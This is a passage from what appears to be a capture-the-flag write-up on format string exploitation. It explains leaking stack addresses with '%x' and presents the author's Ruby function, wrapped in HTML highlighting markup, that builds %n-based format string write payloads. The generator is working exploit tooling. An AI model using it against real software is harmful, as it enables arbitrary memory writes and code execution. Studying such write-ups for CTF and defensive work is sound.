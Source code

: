 ```
```

## Using it against the real server...

The biggest difference between what we just did and using this against the real server is that you can't run a debugger on the server to grab addresses. Instead, you have to leak a stack address and use a relative offset. That's pretty straight forward, though, the format string lets you use "%x" to go up and down the stack trivially.

It's also a huge pain to calculate all the offsets by hand, so here's some code I wrote during the competition to generate a format string exploit for you... it should take care of everything:

```
<pre id="vimCodeElement">
<span class="rubyDefine">def</span> <span class="Identifier">create_exploit</span>(writes, starting_offset, prefix = <span class="Special">""</span>)
  index = starting_offset
  str = prefix

  addresses = []
  values = []
  writes.keys.sort.each <span class="Statement">do</span> |<span class="Identifier">k</span>|
    addresses << k
    values << writes[k]
  <span class="Statement">end</span>
  addresses.each <span class="Statement">do</span> |<span class="Identifier">a</span>|
    str += [a, a+<span class="Constant">1</span>, a+<span class="Constant">2</span>, a+<span class="Constant">3</span>].pack(<span class="Special">"</span><span class="Constant">VVVV</span><span class="Special">"</span>)
  <span class="Statement">end</span>

  len = str.length

  values.each <span class="Statement">do</span> |<span class="Identifier">v</span>|
    a = (v >>  <span class="Constant">0</span>) & <span class="Constant">0x0FF</span>
    b = (v >>  <span class="Constant">8</span>) & <span class="Constant">0x0FF</span>
    c = (v >> <span class="Constant">16</span>) & <span class="Constant">0x0FF</span>
    d = (v >> <span class="Constant">24</span>) & <span class="Constant">0x0FF</span>

    [a, b, c, d].each <span class="Statement">do</span> |<span class="Identifier">val</span>|
      count = <span class="Constant">257</span>
      len  += <span class="Constant">1</span>
      <span class="Statement">while</span>((len & <span class="Constant">0x0FF</span>) != val)
        len   += <span class="Constant">1</span>
        count += <span class="Constant">1</span>
      <span class="Statement">end</span>

      str += <span class="Special">"</span><span class="Constant">%</span><span class="Special">#{</span>count<span class="Special">}</span><span class="Constant">x</span><span class="Special">"</span>
      str += <span class="Special">"</span><span class="Constant">%</span><span class="Special">#{</span>index<span class="Special">}</span><span class="Constant">$n</span><span class="Special">"</span>
      index += <span class="Constant">1</span>
    <span class="Statement">end</span>
  <span class="Statement">end</span>

  puts(<span class="Special">"</span><span class="Constant">Generated a </span><span class="Special">#{</span>str.length<span class="Special">}</span><span class="Constant">-byte format string exploit:</span><span class="Special">"</span>)
  puts(str)
  puts(str.unpack(<span class="Special">"</span><span class="Constant">H*</span><span class="Special">"</span>))

```